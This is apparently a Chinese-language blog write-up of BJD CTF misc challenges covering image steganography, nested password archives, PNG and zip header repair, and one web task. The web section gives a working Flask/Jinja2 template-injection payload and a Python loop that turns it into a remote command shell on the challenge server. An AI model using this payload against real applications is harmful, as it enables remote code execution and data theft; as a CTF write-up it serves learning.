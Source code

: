 title: BJD_CTF_Misc
tags:
  - CTF
categories:
  - CTF
cover: /images/pasted-65.png
date: 2020-03-23 19:56:30
---
# Misc部分

之所以写这个部分，主要还是因为别的部分啥也不会😭😭

## 小姐姐

![upload successful](/images/pasted-38.png)
![upload successful](/images/pasted-39.png)

题目本身很简单，但是容易想复杂。
打开文件可以看到中间有错位，可以判断文件中有信息插入，于是打开十六进制编辑器搜索BJD，可以看到如下信息：
![upload successful](/images/pasted-40.png)

一道签到题

## TARGZ

![upload successful](/images/pasted-41.png)

压缩包无限套娃，下载之后可以看到文件名比较诡异，同时压缩包有密码，可以发现文件名是密码，但是解压一个压缩包会出现一个新的，可以判断嵌套试的压缩包，于是可以写个程序自动跑一下密码。
```python
import os
import sys
import time
import pexpect
def main():
    data = os.listdir()
    data.remove('1.py')
    data.remove('.DS_Store')
    file_name = data[0]
    print(data)
    password = file_name.split('.tar.gz')[0]
    print(file_name)
    child = pexpect.spawn('tar -zxf %s' % (file_name))
    child.expect('Enter passphrase:')
    child.sendline(password)
    os.remove(file_name)
    child.expect('/')
while True:
    try:
        main()
    except:
        pass
```
解压完成之后即可发现flag
![upload successful](/images/pasted-42.png)


## 美丽风景

![upload successful](/images/pasted-43.png)

![upload successful](/images/pasted-44.png)

下载之后发现是一张图片，丢进`Stegsolve`
发现CRC错误

![upload successful](/images/pasted-45.png)

但是更改CRC之后并没有什么效果，推测是图片大小改了。
由于图片大小是1000*900推测可能是1000*1000改过来的，打开十六进制编辑器，

![upload successful](/images/pasted-46.png)

更改03 84 为03 E8
即可出现答案

![upload successful](/images/pasted-47.png)



## 神秘压缩包

![upload successful](/images/pasted-48.png)
解压后是一张图片，但是打开时候提示错误

![upload successful](/images/pasted-52.png)
![upload successful](/images/pasted-49.png)


PNG文件标志由8字节数据组成：89 50 4E 47 0D 0A 1A 0Ah，其中50 4E 47对应的ASCII值是"PNG"。

![upload successful](/images/pasted-50.png)

发现文件头缺失，补全文件头，即可获得flag


![upload successful](/images/pasted-51.png)

## 图片褪色

![upload successful](/images/pasted-59.png)
下载这个，用`binwalk`跑一下，发现zip文件结尾，可以判断是文件隐写

![upload successful](/images/pasted-60.png)

然而`foremost`提取失败 
于是手工提取。

![upload successful](/images/pasted-61.png)

`FF D9`之后便是压缩包内容，然而压缩包内容不完整。
首先zip压缩包是由多个文件实体（File Entry）和多个目录源数据（Central Directory）以及一个目录结束标识（End of central directory record）组成。举个栗子：我们新建个flag.txt文件内容为xiaomeiqiu007,然后压缩成flag.zip。用winhex打开下，我稍微标记一下。

![upload successful](/images/pasted-62.png)

红色部分为：文件实体（File Entry）

主要是记录文件压缩后的主要内容通常以`504b0304`标识开头，每一被压缩的文件对应一个文件实体。文件实体中存储着当前被压缩文件的名字，文件修改时间，压缩方式，是否加密等信息。

蓝色部分为：目录源数据（Central Directory）

主要记录文件目录相关信息，如文件注释，大小，文件名等等…。由文件头（File Header）组成，通常是以504b0102标识开头

灰色部分：目录源数据结束标识（End of central directory record）


![upload successful](/images/pasted-63.png)

补上`50 4B 03 04`,即可解压成功，发现hint


![upload successful](/images/pasted-64.png)

扫描后发现是

```shell
od -vtx1 ./draw.png | head -56 | tail -28
```
执行命令，定位位置，可以获得flag

![upload successful](/images/pasted-65.png)






# 加一个web题 

Flask框架过滤不严

![upload successful](/images/pasted-53.png)

打开网页可以看到name参数可以输入参数

![upload successful](/images/pasted-54.png)

于是，试着加一下注入命令

![upload successful](/images/pasted-56.png)
![upload successful](/images/pasted-55.png)

可以看到从字符串找到父类之后，就可以找到os库
写一个简单的脚本，方便输入命令
```python
import requests
while True:
    data = input()
    url = "http://43.248.125.174:10021/qaq?name={{%22%22.__class__.__bases__[0].__subclasses__()[117].__init__. __globals__[%27popen%27](\""+data+"\").read()}}"
    print(requests.get(url).text)
```
当我们cat flag当时候，发现BJD被过滤了
![upload successful](/images/pasted-57.png)
这时候用sed做一下字符串替换就可以了
```shell
cat /flag | sed 's/BJD/hhh/g'
```

![upload successful](/images/pasted-58.png)